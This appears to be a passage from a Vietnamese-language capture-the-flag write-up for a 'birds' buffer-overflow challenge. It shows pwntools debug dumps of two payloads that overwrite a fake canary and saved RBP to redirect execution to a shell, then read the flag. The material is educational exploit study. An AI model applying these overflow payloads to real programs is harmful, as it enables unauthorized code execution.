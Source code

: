 ```bash
    b'birds  birds.c\tflag.txt  ilovebirds.md  pcs  solve.py\n'
birds  birds.c  flag.txt  ilovebirds.md  pcs  solve.py
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0xb bytes:
    b'tjctf{chim}'
tjctf{chim}$
```

Đôi với cách 1 có thể thấy payload đã gửi những cái này

```bash
[DEBUG] Sent 0x61 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  			 │AAAA│AAAA│AAAA│
    ### 76 byte toàn 'A' để làm đầy hết buf
    
	ef be ad de  |····│
	## 4 byte 0xDEAEDBEEF
	
    00000050  42 42 42 42  42 42 42 42  │BBBB│BBBB│ 
    ## 8 byte 'B' để tràn qua saved RBP
    
    dc 11 40 00  00 00 00 00  ··@·│····│
    ### Địa chỉ thực hiện gọi /bin/sh 0x4011DC
    
    00000060  0a                                                  │·│
    00000061
    # Do dùng sendlineafter() nên có thêm `\n` thôi
```

Với cách 2 thì payload sẽ như này

```bash
$ python solve.py DEBUG
[+] Starting local process './birds' argv=[b'./birds'] : pid 637
[DEBUG] Received 0x3a bytes:
    b'I made a canary to stop buffer overflows. Prove me wrong!\n'
[DEBUG] Sent 0x79 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  ef be ad de  │AAAA│AAAA│AAAA│····│
    00000050  42 42 42 42  42 42 42 42  c0 11 40 00  00 00 00 00  │BBBB│BBBB│··@·│····│
    00000060  d4 c3 b2 a1  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    00000070  c4 11 40 00  00 00 00 00  0a                        │··@·│····│·│
    00000079
[*] Switching to interactive mode
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0xb bytes:
    b'tjctf{chim}'
```
